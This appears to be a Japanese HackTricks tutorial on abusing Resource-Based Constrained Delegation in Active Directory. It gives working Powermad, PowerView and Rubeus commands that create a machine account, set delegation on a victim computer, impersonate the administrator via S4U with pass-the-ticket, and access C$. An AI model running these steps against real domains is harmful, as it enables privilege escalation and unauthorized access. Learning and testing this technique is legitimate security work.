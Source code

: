 # リソースベースの制約付き委任

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## リソースベースの制約付き委任の基本

これは基本的な[制約付き委任](constrained-delegation.md)に似ていますが、**サービスに対して任意のユーザーを偽装するための**権限を**オブジェクトに与えるのではなく**、リソースベースの制約付き委任は**そのオブジェクトに対して任意のユーザーを偽装できる**ユーザーを**設定**します。

この場合、制約されたオブジェクトには、任意の他のユーザーを偽装できるユーザーの名前を持つ属性 _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ が存在します。

この制約付き委任と他の委任との重要な違いは、**マシンアカウントに対する書き込み権限** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) を持つ任意のユーザーが _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ を設定できることです（他の委任形式ではドメイン管理者の特権が必要でした）。

### 新しい概念

制約付き委任では、ユーザーの _userAccountControl_ 値内の **`TrustedToAuthForDelegation`** フラグが **S4U2Self** を実行するために必要であると述べられていました。しかし、それは完全に真実ではありません。\
実際には、その値がなくても、**サービス**（SPNを持つ）であれば任意のユーザーに対して **S4U2Self** を実行できますが、**`TrustedToAuthForDelegation`** を持っている場合、返されるTGSは**転送可能**であり、**そのフラグを持っていない場合、返されるTGSは**転送不可能**です。

ただし、**S4U2Proxy** で使用される **TGS** が **転送不可能**な場合、基本的な制約付き委任を悪用しようとしても**機能しません**。しかし、リソースベースの制約付き委任を悪用しようとすると、**機能します**（これは脆弱性ではなく、機能のようです）。

### 攻撃構造

> **コンピュータ**アカウントに対して**書き込み同等の特権**を持っている場合、そのマシンで**特権アクセス**を取得できます。

攻撃者がすでに**被害者コンピュータに対して書き込み同等の特権**を持っていると仮定します。

1. 攻撃者は**SPN**を持つアカウントを**侵害**するか、**作成します**（“サービスA”）。特に、**特別な権限を持たない**_管理ユーザー_は最大10の**コンピュータオブジェクト**（_**MachineAccountQuota**_）を**作成**し、SPNを設定できます。したがって、攻撃者はコンピュータオブジェクトを作成し、SPNを設定することができます。
2. 攻撃者は被害者コンピュータ（ServiceB）に対する**書き込み権限**を悪用して、**リソースベースの制約付き委任を構成し、ServiceAがその被害者コンピュータ（ServiceB）に対して任意のユーザーを偽装できるようにします**。
3. 攻撃者はRubeusを使用して、**特権アクセスを持つユーザー**のためにサービスAからサービスBへの**完全なS4U攻撃**（S4U2SelfおよびS4U2Proxy）を実行します。
   1. S4U2Self（侵害または作成されたアカウントのSPNから）：**私に対するAdministratorのTGSを要求します**（転送不可能）。
   2. S4U2Proxy：前のステップの**転送不可能なTGS**を使用して、**被害者ホスト**に対する**Administrator**の**TGS**を要求します。
   3. 転送不可能なTGSを使用している場合でも、リソースベースの制約付き委任を悪用しているため、**機能します**。
   4. 攻撃者は**チケットをパス**し、ユーザーを**偽装**して**被害者ServiceBにアクセス**します。

ドメインの _**MachineAccountQuota**_ を確認するには、次のコマンドを使用できます：
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## 攻撃

### コンピュータオブジェクトの作成

[powermad](https://github.com/Kevin-Robertson/Powermad)**を使用して、ドメイン内にコンピュータオブジェクトを作成できます：
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### R**esource-based Constrained Delegationの設定**

**activedirectory PowerShellモジュールを使用して**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**PowerViewの使用**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### 完全なS4U攻撃の実行

まず最初に、パスワード`123456`で新しいコンピュータオブジェクトを作成したので、そのパスワードのハッシュが必要です:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
これはそのアカウントのRC4およびAESハッシュを印刷します。\
さて、攻撃を実行できます：
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
あなたはRubeusの`/altservice`パラメータを使用して、一度尋ねるだけでより多くのチケットを生成できます:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
ユーザーには「**委任できない**」という属性があります。この属性がTrueに設定されているユーザーを偽装することはできません。このプロパティはbloodhound内で確認できます。
{% endhint %}

### アクセス

最後のコマンドラインは、**完全なS4U攻撃を実行し、管理者から被害者ホストの**メモリ**にTGSを注入します。\
この例では、管理者から**CIFS**サービスのTGSが要求されたため、**C$**にアクセスできるようになります。
```bash
ls \\victim.domain.local\C$
```
### 異なるサービスチケットの悪用

[**利用可能なサービスチケットについてはこちら**](silver-ticket.md#available-services)を学びましょう。

## Kerberosエラー

* **`KDC_ERR_ETYPE_NOTSUPP`**: これは、kerberosがDESまたはRC4を使用しないように設定されており、RC4ハッシュのみを提供していることを意味します。Rubeusに少なくともAES256ハッシュ（またはrc4、aes128、aes256ハッシュをすべて提供してください）を提供してください。例: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: これは、現在のコンピュータの時間がDCの時間と異なり、kerberosが正しく機能していないことを意味します。
* **`preauth_failed`**: これは、指定されたユーザー名 + ハッシュがログインに機能していないことを意味します。ハッシュを生成する際にユーザー名の中に「$」を入れるのを忘れた可能性があります（`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`）。
* **`KDC_ERR_BADOPTION`**: これは以下を意味する可能性があります：
  * あなたが偽装しようとしているユーザーが、希望するサービスにアクセスできない（偽装できないか、十分な権限がないため）
  * 要求されたサービスが存在しない（winrmのチケットを要求したが、winrmが実行されていない場合）
  * 作成されたfakecomputerが脆弱なサーバーに対する権限を失っており、それを戻す必要がある。

## 参考文献

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

